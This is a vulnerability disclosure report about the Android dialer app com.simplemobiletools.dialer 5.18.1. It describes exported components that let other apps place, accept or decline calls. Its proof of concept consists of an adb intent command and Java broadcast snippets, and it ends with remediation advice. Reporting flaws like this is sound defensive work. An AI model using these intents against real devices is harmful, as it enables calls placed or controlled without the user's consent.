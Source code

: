 # Vulnerability Report for com.simplemobiletools.dialer

## Summary
A severe security vulnerability has been identified in the `com.simplemobiletools.dialer` Android application. The app's `DialerActivity` and `CallActionReceiver` can be externally manipulated to initiate and control calls without user interaction or consent.

## Affected Application
- **Name**: com.simplemobiletools.dialer
- **Version**: Version 5.18.1

## Vulnerability Details

### Description
The application's `DialerActivity` and `CallActionReceiver` are improperly exposed to external intent calls, allowing any application to initiate, accept, or decline phone calls.

### Impact
- **Unauthorized Call Initiation and Control**: Potential for an external entity to initiate and control phone calls, leading to privacy breaches and unauthorized usage of telephony services.

### Steps to Reproduce and Proof of Concept (PoC)

#### 1. Initiating a Call
The vulnerability can be demonstrated using the following ADB command:
```sh
adb shell am start -a android.intent.action.CALL -d tel:8008000000 -n com.simplemobiletools.dialer/.activities.DialerActivity
```

#### 2. Accepting a Call (PoC Example)
```java
// Java PoC to Accept a Call
Intent acceptCallIntent = new Intent("com.simplemobiletools.dialer.action.ACCEPT_CALL");
context.sendBroadcast(acceptCallIntent);
```

#### 3. Declining a Call (PoC Example)
```java
// Java PoC to Decline a Call
Intent declineCallIntent = new Intent("com.simplemobiletools.dialer.action.DECLINE_CALL");
context.sendBroadcast(declineCallIntent);
```

### Recommended Remediation
- **Restrict Intent Exposure**: Ensure that `DialerActivity` and `CallActionReceiver` only respond to intents from trusted sources.
- **Implement User Consent**: Enforce explicit user consent for sensitive actions like call handling.
- **Security Audit**: Conduct a thorough review of the application to identify and address any security vulnerabilities.
- **Update Manifest**: Revisit the app's manifest to tighten the exposure of activities and receivers.

### Conclusion
The identified vulnerability represents a significant risk to user privacy and security. Prompt action is recommended to address these issues and safeguard the application's users.

---

